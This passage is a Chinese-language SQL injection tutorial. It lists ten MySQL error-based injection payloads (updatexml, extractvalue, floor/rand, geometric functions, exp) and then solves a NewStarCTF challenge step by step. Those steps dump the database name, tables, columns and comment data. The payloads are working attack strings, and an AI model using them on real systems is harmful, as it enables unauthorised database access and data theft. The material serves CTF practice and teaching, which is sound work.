 ```
1.floor()和rand()
union select count(*),2,concat(':',(select database()),':',floor(rand()*2))as a from information_schema.tables group by a       /*利用错误信息得到当前数据库名*/
2.extractvalue()
id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)))
3.updatexml()
id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1))
4.geometrycollection()
id=1 and geometrycollection((select * from(select * from(select user())a)b))
5.multipoint()
id=1 and multipoint((select * from(select * from(select user())a)b))
6.polygon()
id=1 and polygon((select * from(select * from(select user())a)b))
7.multipolygon()
id=1 and multipolygon((select * from(select * from(select user())a)b))
8.linestring()
id=1 and linestring((select * from(select * from(select user())a)b)
9.multilinestring()
id=1 and multilinestring((select * from(select * from(select user())a)b))
10.exp()
id=1 and exp(~(select * from(select user())a))
```

将上述payload的(select user())当做联合查询法的注入位置，接下来的操作与联合查询法一样，不过值得注意的是报错函数通常尤其最长报错输出的限制，面对这种情况，可以进行分割输出，有时候特殊函数的特殊参数进运行一个字段、一行数据的返回，使用group_concat等函数聚合数据即可，以newstarctf第二周的Word-For-You(2 Gen)为例，这里我们使用updatexml()进行报错注入：

**爆库：**

```
?name=1'and updatexml(1,concat(0x7e,(sELECT database())),1)--+
```

得到数据库wfy

**爆表：**

```
?name=1'and updatexml(1,concat(0x7e,(sELECT group_concat(table_name) from information_schema.tables where table_schema=database())),1)--+
```

得到表名：wfy_admin,wfy_comments,wfy_info

**查看wfy_comments表列名：**

```
?name=1'and updatexml(1,concat(0x7e,(sELECT group_concat(column_name) from information_schema.columns where table_name='wfy_comments')),1)--+
```

得到列名：id,text,user,name,display

**查数据**

```
?name=1'and updatexml(1,concat(0x7e,(sELECT group_concat(text) from wfy_comments)),1)--+
```
